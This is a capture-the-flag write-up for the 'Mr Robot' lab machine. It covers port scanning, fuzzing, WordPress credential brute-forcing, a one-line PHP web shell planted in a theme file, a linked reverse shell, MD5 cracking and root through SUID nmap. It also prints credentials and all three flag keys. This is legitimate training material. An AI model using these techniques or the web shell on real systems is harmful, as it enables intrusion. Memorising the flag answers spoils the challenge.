

# Mr Robot CTF



## Initial Port scan

I first used `rustscan` to perform the initial port scan

```python
└─$ rustscan -a xx.xx.xxx.xx --ulimit 5000 -- -A
....
Open xx.xx.xxx.xx:22
Open xx.xx.xxx.xx:80
Open xx.xx.xxx.xx:443
....

PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 1c:ee:88:f8:45:44:1e:37:bd:3c:3e:35:12:9f:ea:2f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDiIUgn1jjbBsLQbsdMx9lpR3u4Aof9QO3ABTpKekLRKZVa+kGastEfF6bh6sKfUKRqvxmnNcrS0Yr/dTTenQFSjPeZoDa7+N5biSvPXPJjP+PUBZTU7RCG6noB33zbK4zX9xM6xQc5BKQrwHr1+yrzYFOvdxvd+EFptzwWI5PjYoaLHtWPV8QL9mtuSfmjljWnlWnOsDVvvV24YZAFiBVSmGl+WP3imPXXYMW4knOtBwd/J5GsOOymWSu1uYcay0TqOy6eOP/+mFx3pIBVOuCT2pw8+a/VG9/XaYW7g01kruLf4A3pS1mQenZQFVdWSCN/Pw+N9W24aB07qKzG5+gSJRWEVCznuBXJcD7NiiSHsg6xkSU0B1VIY8cW1TUjkGJpTxlNY9leHDw7nhMQopJXDE7PTgYhQcZwPKDcbP98/fswmNPzHTPc9dY7xIMUErqKzIejmaFER9pn1eRQBUB1Hb3sAR8nc7bSaT1zynCeqY4RFsF0LLij5YIVW0Zt/Kk=
|   256 74:e4:20:29:0d:96:8b:a6:51:85:4f:43:fe:d9:12:11 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBARppocOyueNa01NNJTCOUt1vvkS8qAmyWmoNPwK3Gg+HX7bLkvaR6KNycDgtqM4sW/ZqIG0mVLDUbhWuIwPjwA=
|   256 bc:57:32:86:3f:93:c0:a1:7f:4d:ff:5c:3f:13:ef:f8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF7NK2a650uNrDMYLbl0QYSMDOkLOqovF4SD5IKK5jdS
80/tcp  open  http     syn-ack ttl 62 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Apache
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http syn-ack ttl 62 Apache httpd
|_http-server-header: Apache
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:     3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
| SHA-1:   ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
| SHA-256: 37a8 b3f1 9d82 8a07 e93c a297 70aa 4146 8004 451e c6b9 c779 be0b 44b3 d276 3bd8
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.19 (91%), Linux 5.14 - 6.8 (91%), Linux 4.15 (90%), Linux 5.4 - 5.15 (90%), Crestron XPanel control system (86%), Linux 3.8 - 3.16 (86%), Android 10 - 12 (Linux 4.14 - 4.19) (85%), HP P2000 G3 NAS device (85%)
```

We can find the following ports:

- Port 22 — SSH
- Port 80 — HTTP
- Port 443 — HTTPS

## HTTP(Port 80)

We can first navigate to the HTTP web page. There was a fancy loading effect where we log in as `root`, then we are greeted with a web shell


Notice they are all custom commands. They are:

- **prepare**
- **fsociety**
- **inform**
- **question**
- **wakeup**
- **join**

The `join` command is very special, as it allows us to enter an input (email)


I tried to do some simple injections but failed


The above commands are actually accessing to the endpoints in the URL, so we can try to enumerate them

## Web Content Enumeration

Using `ffuf`, I have enumerate many endpoints

```python
─$ ffuf -u http://xx.xx.xxx.xx/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://xx.xx.xxx.xx/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 1104, Words: 189, Lines: 31, Duration: 134ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 103ms]
.hta                    [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 97ms]
.htpasswd               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 102ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 410ms]
admin                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 100ms]
audio                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 97ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 424ms]
blog                    [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 98ms]
css                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 105ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 443ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 399ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 395ms]
images                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 96ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 467ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 466ms]
index.html              [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 101ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 428ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 104ms]
js                      [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 96ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 126ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 398ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 434ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 99ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 99ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 477ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 114ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 112ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 466ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 466ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 99ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 100ms]
video                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 101ms]
wp-admin                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 106ms]
wp-content              [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 99ms]
wp-includes             [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 108ms]
wp-config               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 411ms]
wp-cron                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 409ms]
wp-load                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 393ms]
wp-links-opml           [Status: 200, Size: 227, Words: 13, Lines: 11, Duration: 438ms]
wp-login                [Status: 200, Size: 2606, Words: 115, Lines: 53, Duration: 449ms]
wp-mail                 [Status: 500, Size: 3074, Words: 212, Lines: 110, Duration: 465ms]
wp-settings             [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 400ms]
wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 419ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 419ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 453ms]
:: Progress: [4614/4614] :: Job [1/1] :: 92 req/sec :: Duration: [0:00:52] :: Errors: 0 ::

```

Now we will try to look through some of them and see if anything is interesting

### Robots.txt

The first one I looked at is `robots.txt`, we can see two files

```python
User-agent: *
fsocity.dic
key-1-of-3.txt
```

### fsocity.dic

`fsocity.dic` seems to be a dictionary, might be useful for password cracking, so i save it as `fsociety.dic.txt`

```python
└─$ head fsociety.dic.txt                                                                                                                                                                                                                   
true
false
wikia
from
the
now
Wikia
extensions
scss
window

```

### key-1-of-3.txt

`key-1-of-3.txt` reveals `073403c8a58a1f80d943455fb30724b9`, which is one of the keys.

First key: `073403c8a58a1f80d943455fb30724b9`

### Atom

Accessing to `atom` will reveal it is using Wordpress

```python
└─$ file GLccJhYu.atom 
GLccJhYu.atom: XML 1.0 document, ASCII text

└─$ strings GLccJhYu.atom 
<?xml version="1.0" encoding="UTF-8"?><feed
  xmlns="http://www.w3.org/2005/Atom"
  xmlns:thr="http://purl.org/syndication/thread/1.0"
  xml:lang="en-US"
  xml:base="http://xx.xx.xxx.xx/wp-atom.php"
   >
        <title type="text">user&#039;s Blog!</title>
        <subtitle type="text">Just another WordPress site</subtitle>
        <updated></updated>
        <link rel="alternate" type="text/html" href="http://xx.xx.xxx.xx" />
        <id>http://xx.xx.xxx.xx/feed/atom/</id>
        <link rel="self" type="application/atom+xml" href="http://xx.xx.xxx.xx/feed/atom/" />
        <generator uri="http://wordpress.org/" version="4.3.1">WordPress</generator>
</feed>

```

### readme

Show `I like where you head is at. However I'm not going to help you.`

### admin

When I go to `/admin`, I see my browser keep refreshing. So I used Burp Suite to intercept the response and see what is behind the scene


`hum_loop.ogg`, `beep.ogg`, `beep2.ogg`, and `type.ogg` seems legit files, and after we forward the GET request to `index.html`, it continue requesting for `index.html`

Here is a partial of the `index.html`. And after a long time of trying, it seems to be a rabbit hole.

<aside>
💡

The IP should represent friend’s (our) IP. We can refer to the IP shown in the above ‘web shell’. I only realize this after doing the entire challenge

</aside>

```python
<!doctype html>
<!--
\   //~~\ |   |    /\  |~~\|~~  |\  | /~~\~~|~~    /\  |  /~~\ |\  ||~~
 \ /|    ||   |   /__\ |__/|--  | \ ||    | |     /__\ | |    || \ ||--
  |  \__/  \_/   /    \|  \|__  |  \| \__/  |    /    \|__\__/ |  \||__
-->
<html class="no-js" lang="">
  <head>
    

    <link rel="stylesheet" href="css/A.main-600a9791.css.pagespeed.cf.ly7ZfkVtv3.css">

    <script src="js/vendor/vendor-48ca455c.js.pagespeed.jm.V7Qfw6bd5C.js"></script>

    <script>var USER_IP='208.185.115.6';var BASE_URL='index.html';var RETURN_URL='index.html';var REDIRECT=false;window.log=function(){log.history=log.history||[];log.history.push(arguments);if(this.console){console.log(Array.prototype.slice.call(arguments));}};</script>
```

### image

Here is where the WordPress Blog lies. We can try to log in


I realize when we input a wrong username, it will warn us.


So I decided to use the list we found previously and try to fuzz the username


After a while, we found that the correct username is `Elliot`


Then we can try to figure out the password. I first tried to reset the password, but mail function is disabled.


Then we can try to use the list again to guess the password.

I initially used Burp to fuzz, but it is too slow. But the rate-limit is not the only reason, but because the password list is too long and with words duplicated.

```python
└─$ wc -l fsociety.dic.txt 
858161 fsociety.dic.txt

└─$ sort fsociety.dic.txt|uniq -c|head
      1 
     75 000
     75 000000
     75 000080
     75 001
     75 002
     75 003
     75 0032
     75 003s
     75 004     
```

To tackle this, we can create a wordlist that contains only the unique words

```python
sort fsociety.dic.txt|uniq > wordlist.txt

└─$ wc -l wordlist.txt                                                                                                                                                                                                                      
11452 wordlist.txt 
```

This time, I used Caido for the password fuzzing, and we finally obtained the password


With the credentials `Elliot:ER28-0652`, we can log in to WordPress

## WordPress

Now we are in WordPress, and I already feel like the dashboard is way too empty.


### Pages

I recovered the sole deleted page, which is the sample page, and provides no useful information.


### Users

Then in the Users tab, I saw there is another account `mich05654`


Open up the profile, and we are still unable to find the second key:(


### PHP RCE

To find a way out, I searched the Internet and found this [article](https://www.liquidweb.com/wordpress/security/vulnerability/) about common WordPress Vulnerabilities. In the RCE section, it says:

> Remote code execution lets attackers run arbitrary code on a server through vulnerable plugins, **themes**, or file upload features. This vulnerability often leads to full site compromise.
> 

Because we are already in the role of  ‘Administrator’, we can freely edit the themes in WordPress.

So what I did was to test whether we can really achieve RCE, and I edited the `404.php` file to a simple web shell. 

```php
<?php
echo system($_GET['cmd']);
?>
```


And when we enter `?cmd=id`, we can see that the `id` command is successfully executed.


## Reverse Shell

With this, we can utilize a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and set up an `nc` listener.

Now, we are connected through a reverse shell! I suggest to use `export TERM=xterm`  so that we can use commands such as `clear` and `nano`


Under `/home`, we can see there are two users, the `robot` user seems interesting

```python
$ cd /home
$ ls
robot
ubuntu
$ cd robot
$ ls
key-2-of-3.txt
password.raw-md5
$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 4 root  root  4096 Jun  2  2025 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

```

### MD5 Hash Cracking

We can’t directly read the key, but we can read the md5 password of robot

```python
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```

Using tools such as [hashes.com](https://hashes.com/), we can obtain the password `abcdefghijklmnopqrstuvwxyz` easily


## Login to SSH (Port 22)

Now we can use the credentials `robot:abcdefghijklmnopqrstuvwxyz` to log in to SSH.

```python
$ whoami
robot
$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```

Now read the second key!

```python
$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

Second key: `822c73956184f694993bede3eb39f959`

## Privilege Escalation

Because this account cannot use sudo, I decided to find if there is any utilities that has SUID set

```python
$ find / -type f -perm -04000 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

```

Refer to [GTFOBins](https://gtfobins.org/gtfobins/nmap/), we can see that `nmap` actually has an interactive mode, which I did not know at first. With interactive mode, we can run as root and get the final key.

```python
$ nmap
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> whoami
root
nmap> id
uid=0(root) gid=0(root) groups=0(root),1002(robot)

```

Knowing that the third key should be under `/root`, we can navigatethere and end this challenge

```python
nmap> ls /root
firstboot_done  key-3-of-3.txt
nmap> cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

Third key: `04787ddef27c3dee1ee161b21670b4e4`
